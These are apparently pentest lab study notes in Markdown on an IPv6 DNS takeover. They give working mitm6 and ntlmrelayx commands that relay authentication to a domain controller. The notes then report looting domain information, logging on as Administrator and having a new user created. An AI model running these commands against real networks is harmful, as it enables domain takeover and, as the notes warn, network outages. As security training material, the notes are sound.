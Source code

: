 ## IPv6 DNS Takeover via mitm6

### Run mitm6
- `ntlmrelayx.py -6 -t ldaps://<DC IP> -wh fakewpad.marvel.loacl -l lootme`
- `sudo mitm6 -d <domain>`
- IP addresses start to get assigned
- We are now the MITM for IPv6 for these servers
- When an event occurs on the network (e.g. machine reboot, logging in) we can relay it
- Reboot workstation
- **Important**: Only run in small sprints, do not run this and walk away, can and will cause outages in a network. No longer than 5-10 minutes.

  ![image](https://github.com/user-attachments/assets/b9d336b9-9b2f-475d-91ae-4bbe3120a7a4)

- Succeeded because it authenticated to the domain on the DC!
- A lot of info in lootme

  ![image](https://github.com/user-attachments/assets/8c8825fc-d4cc-4b22-adf2-50abf019d225)

- Log onto domain as Administrator

  ![image](https://github.com/user-attachments/assets/26f73b1f-0847-41cd-8bb9-04e31a9b6fff)

- Now it creates access control lists and a new user

  ![image](https://github.com/user-attachments/assets/3bee7fa3-3ee8-4026-a7b8-f767905e3465)

- Game over

